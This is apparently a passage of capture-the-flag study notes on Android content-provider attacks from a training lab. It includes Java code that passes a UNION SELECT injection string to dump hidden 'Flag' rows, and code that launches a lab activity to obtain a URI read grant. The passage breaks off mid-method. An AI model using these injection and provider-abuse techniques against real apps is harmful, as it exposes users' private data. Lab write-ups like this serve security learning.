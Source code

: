 
## SQL Injection in Content Providers
- We can use the same dump method that we have used before and pass SQL queries in selection argument:
```java
    public void dump(Uri uri) {
        Cursor cursor = getContentResolver().query(uri, null, "1) UNION SELECT * FROM Flag WHERE visible=0 AND (1", null, null);
        if (cursor.moveToFirst()) {
            do {
                StringBuilder sb = new StringBuilder();
                for (int i = 0; i < cursor.getColumnCount(); i++) {
                    if (sb.length() > 0) {
                        sb.append(", ");
                    }
                    sb.append(cursor.getColumnName(i) + " = " + cursor.getString(i));
                }
                Log.d("evil", sb.toString());
            } while (cursor.moveToNext());
        }
    }
```

## GRANT_READ_URI_PERMISSION
- Sharing access to Content Provider is a central feature of Android. It is used all the time to give other apps access, without giving direct file access. A typical <provider> looks like this:
```xml
<provider
    android:name=".providers.Flag33Provider1"
    android:authorities="io.hextree.flag33_1"
    android:enabled="true"
    android:exported="false"
    android:grantUriPermissions="true" />
```
- The provider is generally not exported with `android:exported="false"` but the attribute `android:grantUriPermissions="true"` is set. 
- This means the provider cannot be directly interacted with. But the app can allow another app to query the provider, when sending an Intent with a flag such as `GRANT_READ_URI_PERMISSION`.

- For example an app might start an Activity and expect a result. The target app can then share access to its content provider by returning such an Intent back to the caller class.
```java
intent.setData(Uri.parse("content://io.hextree.example/flags"));
intent.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
setResult(RESULT_OK, intent);
```
- We can Inject into the provided Uri:
```java
        Button button = (Button) findViewById(R.id.click);
        button.setOnClickListener(new View.OnClickListener() {
            public void onClick(View v) {
                Intent intent = new Intent();
                intent.setAction("io.hextree.FLAG33");
                intent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag33Activity1");
                startActivityForResult(intent, 1); // 1 is the requestCode
            }
        });


    @Override
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {
        super.onActivityResult(requestCode, resultCode, data);

```
